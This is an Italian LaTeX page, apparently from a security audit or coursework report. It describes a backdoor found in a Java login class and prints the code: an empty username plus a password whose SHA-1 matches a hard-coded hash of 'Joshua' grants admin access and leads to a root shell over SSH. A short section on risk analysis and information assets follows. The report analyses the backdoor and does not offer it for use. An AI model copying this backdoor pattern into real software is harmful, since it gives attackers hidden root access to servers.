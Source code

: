 \documentclass{article}
\begin{document}
All'interno del codice Java, nella classe relativa al controllo delle credenziali passate come input, vi è un campo privato, statico, e costante di nome \emph{magic}. Questo campo contiene l'hash SHA-1 della parola ``Joshua''. Quando nel form di login viene inserita la password e lo username resta vuoto, viene confrontato lo SHA-1 della parola inserita col campo \emph{magic}. Se il controllo da esito positivo viene fatto il redirect su una pagina contenente un'applet Java che avvia una shell, che connettendosi in SSH con le credenziali di Root, da accesso da super user sulla macchina server.
Riportiamo qui sotto lo spezzone di codice:

\begin{lstlisting}
(...)

private static final String magic="a9a2e8456bf9d58e91fe91cbfe10cad5211216c2";

(...)

if(SHAsum(password.getBytes()).equals(magic) && username == null){
	this.admin=true;
	log.aclog("backdoor user", 0);
	adminAccess();
	return;
}

(...)
\end{lstlisting}




\section{Analisi del Rischio e Misure di Sicurezza}

\subsection{Information Assets}
Un ``information asset'' è un corpo di informazioni, definito e gestito come una singola unità in modo che possa essere compreso, condiviso, protetto e sfruttato efficacemente.
Essi hanno un valore di rischio, contenuto, e ciclo di vita riconoscibile e gestibile.

Un information asset è definito ad un livello di granularità che permette di gestire con facilità gli elementi che lo compongono come una singola unità: troppo ampia e non avrà sufficiente dettaglio, troppo fine e si avranno migliaia di asset.
\end{document}
